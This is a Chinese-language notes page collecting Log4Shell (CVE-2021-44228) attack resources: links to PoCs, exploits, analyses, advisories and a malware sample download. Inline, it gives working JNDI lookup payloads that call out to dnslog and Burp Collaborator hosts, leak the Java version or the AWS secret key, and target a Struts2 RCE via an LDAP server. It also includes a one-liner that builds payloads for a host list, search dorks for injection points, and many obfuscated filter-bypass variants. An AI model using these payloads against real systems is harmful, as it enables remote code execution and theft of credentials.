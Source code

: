 [poc-exp1](https://github.com/udoless/apache-log4j-rce-poc)

[log4j JNDI注入原理以及更多扩展](https://y4y.space/2021/12/10/log4j-analysis-more-jndi-injection/)

[关于log4j 讨论的时间线](https://twitter.com/GossiTheDog/status/1469248250670727169)

https://xz.aliyun.com/t/10649

[log4j2 的0day是如何被作者发现的](https://mp.weixin.qq.com/s?__biz=MzA4NzA5OTYzNw==&mid=2247484189&idx=1&sn=4d8ada2cdec25f8697418485e2c12bb2&chksm=903fd287a7485b91abc437341ef4176444ab452a8021105e55e9f3cbd4a1ec2de7a1f1353952&mpshare=1&scene=1&srcid=1214Re0mazzQgLSyCqtHxS2g&sharer_sharetime=1639497078676&sharer_shareid=b0041670f2acfa3d466c67be7c2e0e21&notreplace=true#rd)

使用log4j漏洞查看目标java使用的版本

![Image](../assets/log4j/FGT0Im-UcAIq7IA.png)

```
${jndi:ldap://${sys:java.version}.dnsloag.cn}
form:https://twitter.com/Rayhan0x01/status/1469571563674505217

${env:AWS_SECRET_ACCESS_KEY} 
from:https://twitter.com/Dinosn/status/1469798474816364548
```



[一些JNDI工具分享](https://twitter.com/zhzyker/status/1469121439161012227)

[log4j漏洞分析](https://www.randori.com/blog/cve-2021-44228/)



一句话sh验证漏洞

```
cat hosts.txt | sed 's/https\?:\/\///' | xargs -I {} echo '{}/${jndi:ldap://{}.attacker.burpcollaborator.net}' >> log4j.txt

from:https://twitter.com/aksquaretech/status/1469297067948347394
```



struts2 log4j2 RCE

```
https://twitter.com/testanull/status/1469549425521348609

/$%7bjndi:ldap:/$%7blower:/%7d192.168.139.1:1389/o=tomcat%7d$%7blower:/%7d/ 

https://youtu.be/D-TwQRoX6Fk
```





[Log4Shell 的相关安全公告/公告 (CVE-2021-44228)](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)

[log4j 讨论频道](https://discord.com/channels/521382216299839518/919976471924183141)

[关于一些burp被动替换http请求头的扫描](https://twitter.com/payloadartist/status/1469582893772984322)

[log4j 漏洞一些特殊的利用方式](https://mp.weixin.qq.com/s/vAE89A5wKrc-YnvTr0qaNg)

[log4j漏洞影响清单](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)

[log4j payload生成器](https://github.com/woodpecker-appstore/log4j-payload-generator)

[思科受影响的产品](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-apache-log4j-qRuKNEbd#vp)



[漏洞说明：LOG4SHELL](https://mogwailabs.de/en/blog/2021/12/vulnerability-notes-log4shell/)

触发点tips

```
*.s3.amazonaws.com/*.png?v=${jndi:ldap://*.dnslog.cn/a}
inurl:"/?utm_campaign="
inurl:"/?utm_content="
inurl:"/?utm_ctm_source="
inurl:"/?utm_contenrce="
inurl:"/?utm_medium="
inurl:"/?utm_source="
inurl:".do?fbto=&soor="
inurl:"?redirect_uri="
```



[讨论版](https://www.reddit.com/r/blueteamsec/comments/rd38z9/log4j_0day_being_exploited/)





恶意样本

https://bazaar.abuse.ch/download/81f288645cf2afaf018a7ac6363fee28888a9bfbfbfa842b904ed5b6c74cb47f/



一些混淆

![Image](../assets/log4j/FGVCGtxXsAQVy44.png)



```
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//your.burpcollaborator.net/a}

from:https://twitter.com/BountyOverflow/status/1470001858873802754

${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}

from:https://twitter.com/wugeej/status/1469982901412728832
```



[绕过技术](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words)

[Log4j 的 Apache Solr 和 Oracle Weblogic RCE](https://www.youtube.com/watch?v=9sCT2hGiy_U)



```
VMware大部分产品

Jedis

Logging

Logstash

HikariCP

Hadoop Hive

ElasticSearch

Apache Solr

Apache Struts2

Apache Flink

Apache Druid

Apache Log4j SLF4J  Binding

spring-boot-strater-log4j2

Camel :: Core

JBoss  Logging 3

JUnit Vintage Engine

WSO2 Carbon Kernel  Core

直接引用log4j的组件可参考如下链接：

https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/usages?p=1
```



一些常用http头

```
https://twitter.com/hrbrmstr/status/1470161293365628939
```



exp

```
https://github.com/jas502n/Log4j2-CVE-2021-44228
```



[搭配内网回显脚本](https://github.com/gh0stkey/Command2API)

关键字

```
${ctx:loginId}
${map:type}
${filename}
${date:MM-dd-yyyy}
${docker:containerId}
${docker:containerName}
${docker:imageName}
${env:USER}
${event:Marker}
${mdc:UserId}
${java:runtime}
${java:vm}
${java:os}
${jndi:logging/context-name}
${hostName}
${docker:containerId}
${k8s:accountName}
${k8s:clusterName}
${k8s:containerId}
${k8s:containerName}
${k8s:host}
${k8s:labels.app}
${k8s:labels.podTemplateHash}
${k8s:masterUrl}
${k8s:namespaceId}
${k8s:namespaceName}
${k8s:podId}
${k8s:podIp}
${k8s:podName}
${k8s:imageId}
${k8s:imageName}
${log4j:configLocation}
${log4j:configParentLocation}
${spring:spring.application.name}
${main:myString}
${main:0}
${main:1}
${main:2}
${main:3}
${main:4}
${main:bar}
${name}
${marker}
${marker:name}
${spring:profiles.active[0]
${sys:logPath}
${web:rootDir}

from:https://gist.github.com/bugbountynights/dde69038573db1c12705edb39f9a704a
```



bypass

```
${j${lower:n}d${lower:i}${lower::}${lower:l}d${lower:a}p${lower::}${lower:/}/${lower:1}${lower:2}${lower:7}.${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}0${lower:9}${lower:9}/${lower:o}${lower:b}j}
 
${${upper:j}${lower:n}${lower:d}${lower:i}${lower::}${lower:l}${lower:d}${lower:a}${lower:p}${lower::}${lower:/}${lower:/}${lower:1}${lower:2}${lower:7}${lower:.}${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}${lower:0}${lower:9}${lower:9}${lower:/}${lower:o}${lower:b}${lower:j}}
 
${${nuDV:CW:yqL:dWTUHX:-j}n${obpOW:C:-d}${ll:-i}:${GI:-l}d${YRYWp:yjkg:wrsb:RajYR:-a}p://${RHe:-1}2${Qmox:dC:MB:-7}${ucP:yQH:xYtT:WCVX:-.}0.${WQRvpR:ligza:J:DSBUAv:-0}.${v:-1}:${p:KJ:-1}${Ek:gyx:klkQMP:-0}${UqY:cE:LPJtt:L:ntC:-9}${NR:LXqcg:-9}/o${fzg:rsHKT:-b}j}
 
${${uPBeLd:JghU:kyH:C:TURit:-j}${odX:t:STGD:UaqOvq:wANmU:-n}${mgSejH:tpr:zWlb:-d}${ohw:Yyz:OuptUo:gTKe:BFxGG:-i}${fGX:L:KhSyJ:-:}${E:o:wsyhug:LGVMcx:-l}${Prz:-d}${d:PeH:OmFo:GId:-a}${NLsTHo:-p}${uwF:eszIV:QSvP:-:}${JF:l:U:-/}${AyEC:rOLocm:-/}${jkJFS:r:xYzF:Frpi:he:-1}${PWtKH:w:uMiHM:vxI:-2}${a:-7}${sKiDNh:ilypjq:zemKm:-.}${QYpbY:P:dkXtCk:-0}${Iwv:TmFtBR:f:PJ:-.}${Q:-0}${LX:fMVyGy:-.}${lS:Mged:X:th:Yarx:-1}${xxOTJ:-:}${JIUlWM:-1}${Mt:Wxhdp:Rr:LuAa:QLUpW:-0}${sa:kTPw:UnP:-9}${HuDQED:-9}${modEYg:UeKXl:YJAt:pAl:u:-/}${BPJYbu:miTDQJ:-o}${VLeIR:VMYlY:f:Gaso:cVApg:-b}${sywJIr:RbbDTB:JXYr:ePKz:-j}}



from:https://twitter.com/sirifu4k1/status/1470403278500691975
```

[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)





![图片](../assets/log4j/FGgikxXXsAoiTCT.png)



扫描工具分析

https://fullhunt.io/blog/2021/12/13/detecting-log4j-rce-at-scale.html

https://github.com/channyein1337/log4j-detect



JNDI-Exploit-Kit